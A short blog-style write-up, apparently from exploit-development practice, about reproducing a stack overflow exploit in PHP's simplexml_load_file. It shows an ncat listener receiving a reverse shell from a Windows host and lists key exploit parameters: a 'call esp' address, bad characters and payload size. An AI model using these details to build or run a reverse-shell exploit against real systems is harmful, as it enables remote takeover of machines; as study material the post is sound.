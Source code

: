 #Php Simplexml_load_file Stack Overflow

    osce32@ubuntu:~# ncat -lvp 4444
    Ncat: Version 7.25BETA2 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 192.168.126.134.
    Ncat: Connection from 192.168.126.134:49255.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\IEUser\Desktop>

Came across an exploit that was found by Yakir Wizman, which you can find here: 
http://www.black-rose.ml/2016/09/exploiting-php-for-fun-and-non-profit.html  
I highly suggest reading as he has very interesting work :)

Thought it would be awesome to see how he did it and learned a few things along the way as I have never done it to anything PHP. This was pretty interesting to say the least in making it work :)

So what I used were: 
1. 0x1017c6af : call esp
2. Bad chars were: 0x00 and 0x5c
3. Payload is 371 bytes. It's a reverse shell so it only works for me ;)
